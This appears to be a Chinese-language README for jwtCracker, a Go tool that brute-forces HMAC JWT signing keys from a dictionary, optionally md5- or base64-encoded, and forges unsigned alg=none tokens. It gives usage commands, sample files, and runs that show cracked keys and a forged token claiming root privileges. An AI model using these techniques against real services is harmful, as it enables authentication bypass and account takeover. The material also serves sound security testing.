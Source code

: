 # 项目概述

jwtCracker是一款go语言编写的jwt常见安全问题利用工具，主要功能有：

一、暴力破解：目前支持HS256、HS384、HS512加密方式的破解，另外鉴于部分人喜欢把普通密码经过编码后再作为密钥，本程序支持对密钥进行32位md5、16位md5、base64编码后再进行暴力破解

二、生成alg=none的jwt token



## 安装

### 1.安装依赖

```
go get -u github.com/golang-jwt/jwt
```

### 2.编译

```
go build jwtCracker.go
```

## 用法

```
Usage: jwtCracker COMMAND [options]

encode [generate jwt token(alg=none)]
  -pf string
        path of payload file
crack [brute force jwt key]
  -em string
        encryption method of key [none(default), md5, md5_len16, base64] (default "none")
  -kf string
        path of key file
  -tf string
        path of token file
```

token文件内容示例

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.vvmEOcKCp02AUFIthrIAO-TC4XIZr782tiIbzsYyjWY
```

key文件内容示例

```
123

123456

abc

...
```

payload文件示例

```
{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
}
```



### 示例

1.根据字典内容暴力破解，token文件与密钥字典文件路径自行替换

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt
found key: alwaystest
Execution time:[4.637584s]
E:\golang>
```

2.对字典的值base64编码后暴力破解

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt -em base64
found key: enp6cg==
Execution time:[4.6872635s]
E:\golang>
```

3.对字典的值md5哈希后暴力破解

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt -em md5
found key: 202cb962ac59075b964b07152d234b70
Execution time:[117.999ms]
E:\golang>
```

4.对字典的值16位md5哈希后暴力破解

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt -em md5_len16
found key: ac59075b964b0715
Execution time:[126.4814ms]
E:\golang>
```

5.生成alg=none的jwt token

```
E:\golang>jwtCracker.exe encode -pf payload.txt
eyJhbGciOiAibm9uZSIsInR5cCI6ICJKV1QifQ.ew0gICJpc3MiOiAiaXNzdXNlciIsDSAgImF1ZCI6ICJhdWRpZW5jZSIsDSAgInRlbmFudF9pZCI6ICIwMDAwMDAiLA0gICJyb2xlX25hbWUiOiAi6LaF57qn566h55CG5ZGYIiwNICAidXNlcl9pZCI6ICIxMDAwIiwNICAicm9sZV9pZCI6ICIxMDAwIiwNICAidXNlcl9uYW1lIjogInJvb3QiLA0gICJkZXRhaWwiOiB7DSAgICAidHlwZSI6ICJ3ZWIiLA0gICAgInN0b3JlX2lkIjogMTUzNTE1NjIxMTc4MTk5NjUwMA0gIH0sDSAgInRva2VuX3R5cGUiOiAiYWNjZXNzX3Rva2VuIiwNICAiYWNjb3VudCI6ICJyb290IiwNICAiY2xpZW50X2lkIjogInNhYmVyIiwNICAiZXhwIjogMTY3NzUxMzY3OSwNICAibmJmIjogMTY3NzM0MDg3OQ19.

E:\golang>
```

## 执行时间

测试53w行字典，真实密钥放在最后一行，6.3秒即可跑出结果(16G内存 i5的4核cpu主机)
